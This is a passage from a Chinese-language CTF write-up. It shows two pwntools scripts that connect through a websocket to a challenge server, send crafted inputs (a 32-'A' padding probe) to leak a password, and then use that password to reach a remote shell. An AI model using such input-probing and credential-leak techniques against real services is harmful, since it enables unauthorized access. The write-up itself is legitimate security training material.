 得到 flag 第一部分：

![image-20240707133945119](../../../assets/image-20240707133945119.png)

换成 admin 再来一遍，得到正确密码：

```python
from pwn import *
from wstube import websocket

p = websocket("wss://ctf.zjusec.com/api/proxy/796dc480-8488-48ff-b02b-448798009db6")

print(p.recvline())
p.sendline("admin")
print(p.recvline())
p.sendline("32")
print(p.recvline())
p.sendline("A"*32)
p.interactive()
```

![image-20240707134354430](../../../assets/image-20240707134354430.png)

输入正确密码，这时候根据给的代码，我们能进入远程的终端：

```python
from pwn import *
from wstube import websocket

p = websocket("wss://ctf.zjusec.com/api/proxy/796dc480-8488-48ff-b02b-448798009db6")

print(p.recvline())
p.sendline("admin")
print(p.recvline())
p.sendline("32")
print(p.recvline())
p.sendline("ILovePlayCTFbtwAlsoDota2!")
p.interactive()
```

![image-20240707134809312](../../../assets/image-20240707134809312.png)
